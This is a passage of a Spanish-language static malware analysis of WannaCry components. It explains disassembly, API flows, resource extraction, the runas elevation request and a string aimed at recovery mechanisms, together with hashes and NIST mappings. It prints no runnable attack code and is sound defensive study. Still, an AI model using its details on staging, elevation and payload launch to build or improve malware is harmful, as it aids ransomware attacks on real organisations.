

`CALL EAX` es una transferencia de control a la dirección que está en el registro EAX. No sabemos qué hace esa rutina solo por el destino o el nombre TaskStart; se necesitaría recuperar y analizar el cuerpo de la función apuntada.



La ruta especial depende de las condiciones de argumentos y de los resultados auxiliares; el diagrama no implica que una copia se haya completado. La rama no especial continúa al directorio de trabajo y al extractor.



El gráfico muestra el límite entre esta función y el extractor. Los resultados de la extracción deben analizarse en su propia ficha; una llamada no equivale a que el paquete se haya desplegado.

### Auxiliar de proceso: 00401064

La función solicita CreateProcessA y devuelve cero si la creación falla. Si se informa éxito, solo espera cuando el segundo parámetro es distinto de cero. Dentro de ese bloque, un resultado de espera distinto de cero conduce a solicitar TerminateProcess y, si existe el tercer parámetro, consultar el código de salida. Finalmente cierra handles y devuelve 1.

No se debe traducir «retorno 1» como «permisos cambiados». Ese valor describe el resultado de esta auxiliar, no el efecto final del programa externo. Los usos con espera cero tampoco esperan el cierre del proceso. Las condiciones pueden entenderse leyendo los parámetros concretos del llamador, no únicamente el cuerpo de la auxiliar. [API3]

### t.wnry y la frontera del análisis: 004014a6

El archivo observado tiene 65.816 bytes. Su cabecera comienza por ocho bytes WANACRY! y después `00 01 00 00`, que corresponde a 256 en little-endian. La rutina abre el archivo, comprueba tamaño y cabecera, lee campos, reserva memoria y recurre a auxiliares de transformación. En memcmp, cero significa igualdad, a diferencia de los controles de handle nulo.

La transcripción muestra un prototipo __thiscall y parámetros que requieren revisión contra el Listing. No se cambia el convenio de llamada para obtener código compilable. El campo 0x100 no demuestra por sí solo RSA ni una clave concreta; ese significado requiere seguir los datos y los auxiliares.

```text
00402125  PUSH 0x40f4f4     ; referencia a t.wnry
0040212d  CALL 004014a6     ; lectura y procesamiento
00402154  JZ 0040215a       ; evita llamada si destino es cero
00402158  CALL EAX          ; destino indirecto, no cuerpo del cifrador
```

La decompilación permite reconocer la búsqueda y llamada condicionada hacia una carga. No aporta aquí la DLL final reconstruida ni el cuerpo íntegro de TaskStart. Un paquete con contraseña, un contenedor transformado y el cifrado de documentos son capas distintas; no se equiparan sus claves o funciones.

### Evaluación y relación con NIST

El hallazgo más fuerte es la relación entre recurso, paquete y miembros, junto con las condiciones que limitan la llamada indirecta. La confianza es alta en los bytes y referencias preservados; el resultado de ejecución permanece no observado. Una ausencia de salida en un entorno externo podría tener varias explicaciones y no se resuelve con este decompilado.

Para estudiar, dibujar el árbol padre-hijo, anotar el tratamiento de c.wnry, separar las llamadas asíncronas y marcar la frontera TaskStart. La ampliación debe revisar los auxiliares de transformación y convenios de llamada antes de caracterizar el cifrador. NIST SP 800-86 organiza el examen; RS.AN-06 y RS.AN-07 requieren conservar actuación, identidad, datos y procedencia.

### Lectura por capas OSI: paquete local y ausencia de protocolo en la rutina

| Operación observada | Capa OSI | Explicación y límite |
|---|---|---|
| `FindResourceA`, `LoadResource`, `LockResource`, `SizeofResource` | No aplica | Accede al directorio de recursos PE ya contenido en el archivo. No es una descarga ni comunicación de red. |
| Abrir el paquete XIA/2058 y recorrer sus 36 miembros | No aplica | El ZIP se identifica mediante examen estático de bytes/estructura y CRC. El nombre XIA no es una capa ni prueba el formato. |
| `GetFileAttributesA`, extracción, `SetFileAttributes`/operaciones de permisos | No aplica | Son consultas y solicitudes locales de archivos/ACL de Windows. Que el código las solicite no confirma efecto. |
| `CreateProcessA`, espera y cierre de handles | No aplica | Gestión local de procesos; no es tráfico de red ni evidencia de una sesión. |
| Transporte de paquetes SMB que pudo participar en la propagación general de WannaCry | Capas 7 y 4–1, si la actividad de red correspondiente está presente | El contexto histórico y la captura externa se estudian en secciones separadas. Las funciones aquí examinadas no contienen evidencia suficiente para atribuir esa comunicación a ed01. |

**Clave didáctica:** no forzar una etiqueta OSI para cada llamada. En este módulo, las capas OSI no describen el acceso a recursos embebidos, ZIP ni permisos. Para hablar de red se necesitan funciones/protocolos identificables o artefactos de tráfico correlacionados; la relación estática de ed01 con un paquete no aporta por sí sola esos datos.

**Conclusión del componente:** ed01… organiza y prepara un paquete con un camino condicionado hacia otra carga. El análisis no demuestra el éxito de todas las extracciones, los efectos de los comandos ni la ejecución completa del cifrador.


## 8. Análisis de u.wnry: referencias, privilegios y recuperación

### Identidad, pregunta y evidencia

u.wnry tiene SHA-256 b9c5d4339809e0ad9a00d4d3dd26fdf44a32819a54abf846bb9b560d81391c25 y procede del paquete de ed01…. Es un PE32 x86 con 1.070 funciones reconocidas. Aquí se estudian tres auxiliares y el Listing que las conecta con una cadena contra mecanismos de recuperación.

La pregunta es qué relación existe entre el dato textual, la consulta de privilegios y la solicitud de proceso. No se pretende caracterizar todas las funciones de interfaz o descifrado a partir de esos tres cuerpos. El bloque principal que referencia la cadena no tiene una función contenedora correctamente recuperada en este proyecto; no se dispone de su decompilación completa.

### Del dato a su referencia

La cadena de interés está en 00420fd8 y agrupa operaciones contra copias sombra, catálogo y opciones de recuperación. Se describe su finalidad analítica sin ofrecerla como comando de práctica. Una cadena sin referencia podría ser dato no utilizado; aquí se conserva un camino de referencias hacia código.

```text
004066fe  MOV ESI,0x420fd8   ; dirección del dato
0040670c  MOVSD.REP         ; copia
0040672f  CALL 00401bb0     ; consulta de token
00406736  JNZ 00406750     ; selección de ruta
00406746  CALL 00401b50    ; auxiliar ShellExecuteExA
0040677c  CALL 00401a90    ; auxiliar CreateProcessA
```

Las condiciones anteriores al fragmento también pueden afectar su alcance. El Listing demuestra instrucciones y relaciones, no que el bloque se ejecutara. Un fallo del Decompiler no significa ausencia de código ni autoriza a inventar una función C para completar el informe.

### Consulta del token: 00401bb0

La función construye el SID correspondiente al grupo de administradores y consulta CheckTokenMembership. Distinguir dos resultados es esencial: BVar1 informa si la API pudo realizar la consulta; local_10 recibe el resultado de pertenencia habilitada. Si falla la construcción del SID o la consulta, la auxiliar termina con cero; también puede retornar cero tras una consulta negativa. [API4]

El flujo del llamador selecciona una ruta según ese retorno. Un valor no cero conduce hacia la auxiliar de creación de proceso; el camino cero hacia la auxiliar de ShellExecuteExA. No debe afirmarse que todo cero significa exclusivamente «usuario no administrador»: también puede representar una falla de consulta.



La consulta devuelve dos ideas que deben mantenerse separadas: si Windows pudo comprobar el token y si el grupo de administradores está habilitado. El resultado cero no permite distinguir por sí solo entre “no pertenece” y “falló la comprobación”.



La respuesta no nula selecciona la primera auxiliar; la nula selecciona la segunda. Como el helper también devuelve cero ante una consulta fallida, el rombo describe el retorno del helper, no una certeza universal sobre el usuario.

### Solicitud con runas: 00401b50

Esta auxiliar llena una estructura SHELLEXECUTEINFOA, coloca los parámetros recibidos y utiliza el verbo `runas` al solicitar ShellExecuteExA. En Windows, el verbo pide al shell iniciar la acción con elevación, normalmente mediante el consentimiento del sistema. El código demuestra la solicitud, no que se aceptara ni que el proceso obtuviera privilegios. Falta evidencia de contexto del usuario, respuesta del sistema y proceso resultante para afirmar su efecto real.

La expresión booleana del decompilado se preserva literalmente en el anexo. No se simplifica silenciosamente como una garantía de éxito, y no se atribuye a la biblioteca una vulnerabilidad de elevación solo por ver el verbo runas.

### Creación y espera: 00401a90

La auxiliar prepara estructuras y solicita CreateProcessA. La primera bifurcación separa fallo (retorno cero) de creación informada por la API. Si se informa éxito, el segundo parámetro controla si el código espera; si no espera, pasa al cierre.



La figura muestra la decisión inicial. Un parámetro de espera distinto de cero lleva a WaitForSingleObject; el resultado de esa API se analiza en la siguiente etapa. Si hay parámetro de salida, el código consulta el código de salida dentro del camino correspondiente. Después cierra handles y retorna 1 en las rutas de éxito.

Hay tres hechos distintos: la API informa creación, el proceso puede terminar, y la acción externa puede conseguir un cambio. Esta auxiliar no acredita los tres. Una solicitud de terminación tampoco demuestra que la orden prevista hubiera terminado antes. El valor de retorno no es una medición del estado de copias de respaldo.



Si el resultado de la espera es distinto de cero, el flujo puede solicitar TerminateProcess; si es cero, pasa al cierre. El diagrama siguiente aísla ese último paso para que la condición no se confunda con una terminación comprobada.



### Qué explica y qué no explica para el NHS

El mecanismo hace relevante estudiar la capacidad de recuperación. La relación es conceptual y preventiva: una organización necesita copias protegidas y verificadas ante acciones que puedan obstaculizar restauración. No se afirma que todos los respaldos del NHS se borraran, que esta ruta alcanzara cada equipo ni que los permisos se concedieran. Esos hechos necesitarían artefactos de cada entorno.

| Nivel de evidencia | Afirmación admisible |
|---|---|
| Cadena | Existe texto con operaciones potencialmente perjudiciales para recuperación |
| Referencia y Listing | Hay instrucciones que acceden al texto y llaman a auxiliares |
| Auxiliar | Puede solicitar un proceso bajo condiciones determinadas |
| Ejecución real | Pendiente: necesitaría procesos y tiempos comprobados |
| Efecto real | Pendiente: necesitaría estado de recuperación antes/después |

NIST: PR.DS-11 justifica copias mantenidas y probadas; RC.RP-03 pide verificar su aptitud antes de usarlas y RC.RP-05 verificar el funcionamiento después. Un snapshot de laboratorio no debe confundirse con la estrategia institucional de respaldo.

### Lectura por capas OSI: acciones locales relacionadas con recuperación

| Fragmento | Capa / ámbito | Interpretación correcta |
|---|---|---|
| Cadena en 00420fd8 | Dato local | La cadena no es una trama, paquete ni sesión. Las referencias muestran dónde se usa. |
| `AllocateAndInitializeSid` y `CheckTokenMembership` | Seguridad local de Windows | Construye un identificador de grupo y consulta pertenencia habilitada en el token. No consulta un servidor remoto ni demuestra privilegio efectivo fuera de ese proceso. |
| `ShellExecuteExA` con verbo `runas`, `CreateProcessA`, espera/terminación | Gestión local de procesos | Solicita una acción del shell o la creación/espera de proceso. La solicitud no confirma elevación, ejecución completa ni efecto sobre respaldos. |
| Capas 7–1 | No hay flujo OSI demostrado en el tramo seleccionado | No se observan API de red ni destino/protocolo en esta evidencia concreta. La actividad de red de WannaCry debe justificarse con otros componentes o PCAP. |

La función de cifrado de archivos tampoco se asigna a una «capa OSI»: puede operar sobre datos locales en la capa de aplicación del sistema, pero eso no es una comunicación de red. En esta ficha, la pregunta forense es qué datos y procesos locales solicita, bajo qué condiciones y con qué resultado observado.

**Conclusión del componente:** se observa una conexión estática entre datos y solicitudes de proceso relevantes para recuperación. La decompilación incompleta del llamador y la falta de ejecución impiden afirmar el efecto final. Para ampliar el estudio hay que recuperar límites y flujo del bloque sin modificar el binario original.


## 9. Análisis de ec1383…: W/101 y solicitud de lanzamiento

### Identidad, pregunta y evidencia

El archivo ec1383… tiene 5.298.176 bytes y SHA-256 ec138352c4726fa3b6706b30bf4692252f818108c8066e8518920dd9823a34bb. Su estructura es PE32+ x64, DLL, aunque el nombre recibido termine en .exe. La extensión es una etiqueta; la cabecera decide la interpretación del formato.

La pregunta es cómo extrae y solicita lanzar una carga y qué relación comprobada tiene con los demás. Se examinan PlayGame, la extracción de W/101 y la auxiliar de proceso. No se conoce aquí qué mecanismo externo invocó la exportación ni si ocurrió en un hospital o sandbox.

### PlayGame: 1800011a4

La exportación forma la ruta global `C:\WINDOWS\mssecsvc.exe`. Llama a 180001014 y luego a 1800010f8, retornando cero. Las instrucciones en 1800011c9 y 1800011ce son llamadas consecutivas; no aparece entre ellas una prueba del resultado de extracción.

La consecuencia es precisa: una devolución de fallo de la primera rutina no impide por sí misma que el llamador solicite la siguiente. Eso no garantiza que exista un archivo válido para lanzar. La presencia de PlayGame en la tabla de exportaciones tampoco demuestra que se haya invocado. La práctica no necesita ejecutar la DLL para responder estas preguntas.



No hay compuerta entre las dos llamadas; PlayGame no comprueba ahí el retorno de extracción. La exportación prueba que existe un punto de entrada en el archivo, no que alguien lo haya invocado.

### W/101, desde cero

W es el tipo del recurso y 101 su identificador decimal; en las instrucciones se ve 0x65. `FindResourceA` usa módulo, nombre/identificador y tipo. Obtener una referencia al recurso no ejecuta su contenido: primero Windows localiza los datos y luego el código los carga.

```text
Recurso W/101: 5.242.880 bytes
+0 a +3       DWORD little-endian: longitud 3.756.032
+4            Inicio del PE delimitado
+4 a +3756035 Tramo de 3.756.032 bytes que se pretende escribir
Después       Bytes restantes del recurso, fuera de ese tramo
```



Si `FindResourceA` devuelve NULL, no se llega a cargar el recurso. Si devuelve una referencia, el flujo continúa con la siguiente API. W/101 es notación tipo/ID del directorio PE; no representa una URL, puerto ni una capa OSI.

### Carga de los datos: LoadResource y LockResource

`LoadResource` intenta cargar los datos referidos por HRSRC. El código comprueba que el resultado sea distinto de NULL; si falla, retorna cero. Después `LockResource` obtiene un puntero a los bytes y se comprueba también que no sea NULL; si falla, también retorna cero. Son controles sucesivos: superar el primero no salta el segundo.



### Longitud y frontera del recurso: 180001014

Después de validar el puntero, `SizeofResource` obtiene el tamaño y la rutina comprueba que sea distinto de cero. Solo entonces lee el DWORD inicial como longitud L. Ese DWORD ocupa cuatro bytes y se interpreta en little-endian; por eso el contenido empieza en +4. El código entrega L como longitud para `WriteFile`.



La comprobación del binario cubre que el tamaño sea mayor que cero, pero no muestra una comparación completa de L con el tamaño disponible. El analista valida el límite `L ≤ tamaño_recurso − 4` y calcula el hash del tramo delimitado. Esta comprobación externa no se atribuye al malware.

```text
18000102a  LEA R8,[1800092b0]  ; tipo W, tercer argumento
180001031  MOV EDX,0x65       ; identificador 101
180001036  CALL [180009030]   ; FindResourceA
18000108b  MOV ESI,[RDI]      ; DWORD de longitud L
1800010c4  LEA RDX,[RDI+4]    ; inicio del contenido
1800010cd  MOV R8D,ESI        ; longitud para WriteFile
1800010d3  CALL [180009008]   ; solicitud de escritura
```

En el C recuperado, pDVar2 es DWORD*. `*pDVar2` lee el DWORD y `pDVar2 + 1` avanza cuatro bytes; el Listing lo confirma con LEA +4. La rutina copia bytes. En este fragmento no se observa descifrado.

### Solicitud de escritura y significado del retorno

`CreateFileA` solicita crear o abrir `mssecsvc.exe`. Si devuelve `INVALID_HANDLE_VALUE`, el código omite `WriteFile`, pero retorna 1. Si el handle es válido, solicita escribir desde recurso+4 por L bytes, ignora el resultado de `WriteFile`, cierra el handle y retorna 1.



Así, «retorno 1» no equivale a «archivo extraído correctamente». La comprobación externa tendría que establecer existencia, tamaño, contenido y SHA-256. El tramo delimitado mide 3.756.032 bytes y tiene el hash `93db4b26…` registrado en el inventario.

### Solicitud de proceso: 1800010f8

La auxiliar inicializa estructuras y solicita CreateProcessA con la ruta global. Si la API informa éxito, cierra los handles del hilo y del proceso. Retorna cero en ambos caminos. No hay espera del hijo en esta rutina.

Cerrar handles libera referencias de la función; no prueba que el proceso terminara. La devolución cero tampoco demuestra fallo de CreateProcessA, porque ambos resultados de esa API terminan en ese mismo valor. La conclusión estática es «existe una solicitud de lanzamiento condicionada por el entorno», no «se ejecutó el ransomware completo». [API3]

### Relación con las otras muestras y ANY.RUN

El PE delimitado desde W/101 tiene hash 93db4b26be3a4e6b724bf85830746f458cde613ad88501bcb23d2ae1ab9976c9. No coincide con 24d004…. La relación probada es ec1383… → recurso W/101 → ese PE. No se añade una flecha de identidad hacia 24d004…, ni se deduce procedencia Dionaea o uso de DoublePulsar a partir de la estructura de una DLL.

El usuario informó que ANY.RUN mostró un error 500 en su página. No hay informe de tarea disponible para verificar hash ejecutado, invocación de exportación, procesos o tiempos. Ese dato comunicado no determina si la DLL hizo algo y no demuestra que un servidor de kill switch la detuviera.

### Criterios de revisión

